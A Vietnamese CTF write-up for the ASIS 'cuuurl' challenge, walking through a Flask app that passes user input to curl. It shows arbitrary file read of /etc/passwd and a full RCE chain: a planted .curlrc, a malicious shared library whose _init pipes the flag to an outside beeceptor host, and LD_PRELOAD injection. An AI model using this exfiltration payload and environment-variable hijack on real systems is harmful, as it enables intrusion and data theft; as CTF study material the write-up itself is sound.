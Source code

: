 ```yaml
---
tag:
   - ctf 
---
```

# asis-ctf

## cuuurl

> cUrl, nhưng không phải Command Injection, mà là Environment Variable to RCE .\_.
>
> Tiếp tục là một bài Whitebox tiếp =))&#x20;

### Walkthrough

Vừa vào thử luôn trang web xem có gì luôn nhỉ&#x20;

![intro](https://cdn.hashnode.com/res/hashnode/image/upload/v1642262145082/ZEP7IuZqd.png)

Response có đoạn xin chào mình vào để ý ở trên URL thì có đường dẫn tới file. Có vẻ bài này liên quan tới lỗ hổng Arbitrary file read roài.

Thử xem xét mã nguồn luôn nào

```python
@app.route('/')
def index():  # Poor coding skills :( can't even get process output properly
    url = request.args.get('url') or "http://localhost:8000/sayhi"
    env = request.args.get('env') or None
    outputFilename = request.args.get('file') or "myreg rets.txt"
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    result = ""

    if env:
        env = env.split("=")
        env = {env[0]: env[1]}
    else:
        env = {}

    master, slave = pty.openpty()
    os.set_blocking(master, False)
    try:
        subprocess.run(["/usr/bin/curl", "--url", url], stdin=slave, stdout=slave, env=env, timeout=3, )
        result = os.read(master, 0x4000)
    except:
        os.close(slave)
        os.close(master)
        return '??', 200, {'content-type': 'text/plain;charset=utf-8'}

    os.close(slave)
    os.close(master)

    if not os.path.exists(outputFolder):
        os.mkdir(outputFolder)

    if "/" in outputFilename:
        outputFilename = secrets.token_urlsafe(0x10)

    with open(f"{outputFolder}/{outputFilename}", "wb") as f:
        f.write(result)

    return redirect(f"/view?file={outputFilename}", code=302)
```

Hàm chính được sử dụng ở route index, cho phép tải Url bất kì vào lưu và chỉ định file bất kì vào trong Folder outputs của mình (ở đây được định danh bằng mã hash của remote IP). Tên file cũng được validate để tránh mình đẩy file ra ngoài thư mục được phép. Ngoài ra mình còn được xét biến môi trường tùy ý.

```python 
@app.route('/view')
def view():
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    outputFilename = request.args.get('file')

    if not outputFilename or "/" in outputFilename or not os.path.exists(f'{outputFolder}/{outputFilename}'):
        return '???', 404, {'content-type': 'text/plain;charset=utf-8'}

    with open(f'{outputFolder}/{outputFilename}', 'rb') as f:
        return f.read(), 200, {'content-type': 'text/plain;charset=utf-8'}
```

Tiếp tục hàm view này trả về nội dung file đã lưu trước đó trong thư mục của mình. Nhưng cũng được validate để tránh đọc file lung tung. Nên cũng không đọc được dữ liệu gì từ đây, bắt buộc phải điều khiển được dữ liệu đầu vào.

Hm...kinh nghiệm mình làm một số bài trước đây thì nếu cUrl cho phép nhập trực tiếp Url thì có thể Command Injection luôn ấy nhỉ? Nhưng giá trị Shell trong trong subprocess không được để là true nên giá trị thì nó cũng đẩy thành string chứ không injection được :disappointed\_relieved: Không lên thẳng được shell phải tìm các lỗ hổng khác xem, mình điều khiển được khá nhiều giá trị mà :-D .

Không thể command injection qua Url nhưng mình có thể điều khiển được nó mà? cUrl hỗ trợ nhiều giao thức [cUrl manual](https://curl.se/docs/manpage.html) trong đó có giao thức file nên mình có thể đi đâu trả được :-D

```shell
➜  ~ curl http://localhost:8000/\?url\=file:///etc/passwd -L

root:x:0:0:root:/root:/bin/bash
...
app:x:1000:1000::/home/app:/bin/sh
```

Nhưng mà flag lại không đọc được :"<

```dockerfile
FROM python:3

RUN apt-get update -y
RUN apt-get install -y curl
RUN pip3 install flask

WORKDIR /app

COPY ./flag.txt /flag.txt
COPY ./stuff/readflag /readflag
COPY ./stuff/app.py ./app.py
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
RUN chmod +x ./app.py
RUN useradd -m app
RUN mkdir /app/outputs
RUN chown app /app/outputs


USER app
CMD [ "/app/app.py" ]
```

Quyền sở hữu root, phân quyền 400. Tức là chỉ có root mới đọc được. Nhưng may thay `readflag` được set sticky bit nên nó đọc được, cũng tức là quay lại việc tìm cách RCE chứ không phải chỉ là đọc ghi file.

Quay lại phía trên thì còn biến môi trường mình có thể điều khiển được, cũng tức là đây có thể là lựa chọn duy nhất nếu muốn RCE. Lang thang tìm kiếm theo keyword về việc RCE thông qua biến môi trường thì tìm được bài [Playing with LD\_PRELOAD](https://axcheron.github.io/playing-with-ld\_preload/).

Hmm...Tức là có thể hook được command thông qua set biến môi trường `LD_PRELOAD` à. Tiếp tục đọc thêm vào được giúp đỡ của team mình thì mình định hình được như sau:

* `LD_PRELOAD` là biến được dùng để trỏ đến các thư viện (shared lib) để tải lên trước.
* Các hàm này sẽ được tải lên đầu tiên đồng thời cũng override lại các hàm sau này.
* hàm `void _init()` sẽ được thực thi đầu tiên để khởi tạo nếu cần.
* Tránh đệ quy nếu tiếp tục gọi subprocess thì cần `unset("LD_PRELOAD")` trước khi gọi các subprocess tiếp :"< .

Như vậy là việc đầu tiên cần làm là tạo ra một shared lib để có thể đẩy cho các bước sau đó, để khi thực thi cUrl ta sẽ đặt biến môi trường tới nó để Trigger được lệnh.

Lâu không code `C` với việc ngáo ngơ các biến môi trường trên thì với sự giúp đỡ của team mình tạo được thư viện có thể trigger để làm payload như sau.

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag | curl https://biennd4.free.beeceptor.com/ -d @-");
}
```

Complie nó thành shared lib và đẩy lên server để tẹo tải về bằng cUrl.

```shell
➜  ~ gcc -fPIC -shared -o hsvcs.so hsvcs.c -nostartfiles
```

Tiếp tục kéo về thưc mục của mình và thêm Env thôi nhưng lại có lỗi xảy ra đó là cUrl không hiển thị file binary mà bắt buộc phải đặt output ra file. Nhưng mình có thể chèn thêm được gì ngoài Url đâu :cry:

Tiếp tục một sự giúp đỡ đến từ team HsVcs khi cho biết cUrl sẽ sử dụng config mặc định thông qua `.curlrc`, nó thường lưu tại `$HOME/.curlrc` với HOME ở đây tham khảo [cUrl manual](https://curl.se/docs/manpage.html) là biến môi trường mà mình đặt cho cUrl mà mình có thể điều khiển được biến môi trường. Vậy là việc đầu tiên phải là đẩy lên được file config đẩy lên để sử dụng nó để kéo được thư viện kia về.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://biennd4.free.beeceptor.com/config\&file\=.curlrc -L                         
--output /tmp/hsvcs.so% 
```

Để kéo thư viện kia về cần trỏ thư mục của mình thành `$HOME`, nó cũng không có gì do việc tính hash remote ip `hashlib.md5(request.remote_addr.encode()).hexdigest()` của mình nhưng không hiểu sao mình dùng VPS mới ra đúng được folder. Hay máy mình dùng IPv6 bị NAT lại thành IPv4 nên có lỗi này nhỉ.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://d3s34.me/hsvcs.so\&env\=HOME%3D/app/outputs/8821b33244ff93dd962f963b7284dfeb
??%
```

Việc cuối cùng là đặt lại `LD_PRELOAD` để lấy flag thôi :sunglasses:.

```shell
➜  ~ http://65.108.152.108:5001/\?url\=https://d3s34.me/&env=LD_PRELOAD%3d/tmp/hsvcs.so
```


![flag](https://cdn.hashnode.com/res/hashnode/image/upload/v1642262208032/pw-dIsgsu.png)

